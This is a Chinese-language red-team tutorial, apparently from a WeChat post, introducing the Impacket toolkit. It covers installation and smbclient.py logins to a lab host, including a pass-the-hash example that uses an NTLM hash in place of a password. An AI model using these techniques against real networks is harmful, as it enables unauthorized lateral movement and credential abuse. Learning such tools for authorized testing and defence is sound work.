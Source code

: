 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xpI0e3X2zVNmL20BdKmcfA)

点击蓝字关注我哦

  

  

  

  

**前言**
------

Impacket 工具包是红队人员内网横向使用频率最多的工具包之一，而 Impacket 是一个标准 Python 类库，用于对 SMB1-3 或 IPv4 / IPv6 上的 TCP、UDP、ICMP、IGMP，ARP，IPv4，IPv6，SMB，MSRPC，NTLM，Kerberos，WMI，LDAP 等协议进行低级编程访问。在 impacket 工具包中用到最多的协议就是 smb 协议，SMB 是一种网络协议，也称为服务器消息块协议，它被用于在客户端和服务器之间进行通信，它 还可以用来共享文件，打印机和其他一些网络资源。其次就是 MSRPC，MSRPC 或 Microsoft 远程过程调用是 DCE / RPC 的修改版本，它是由 Microsoft 创建的，用于在 Windows 中无缝创建客户端 / 服务器模型，Windows Server 域协议完全基于 MSRPC。

  

使用  

-----

安装就无需多言了，实在不会的就百度吧！ 

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
ls
python setup.py install
```

所有生成的工具包文件都在 example 目录下：

这里喔演示，这里没有搭建域环境，如果域存在就在用户名前面加上域名，用户：administator 密码：123456

为啥要以 administrator 用户为演示，因为在打了 kb2871997 补丁下，禁 止 sid500 以外的的用户进行 pth，如果不存在域就不需要加上域名参数。

smbclient.py 

有时候，我们需要在攻击者计算机和目标计算机之间执行多项操作，那么 s mbclien.py 足够满足我们的所需，它可以列出共享和文件，重命名某些文件，上传二进制文件或从目标计算机下载文件，当然还有更多妙用。。。。句法：

```
smbclient.py [域] / [用户]：[密码/密码哈希] @ [目标 IP 地址]
```

通过密码建立 smb 服务连接

```
Python smbclient.py

redteamspace/Administrator:123456@192.168.75.141
```

通过 hash 建立 smb 服务连接

```
python3 smbclient.py -hashes 00000000000000000000000000000000:32ed87bdb5fdc5e9cba88547376818d4 administrator@192.168.75.141
```
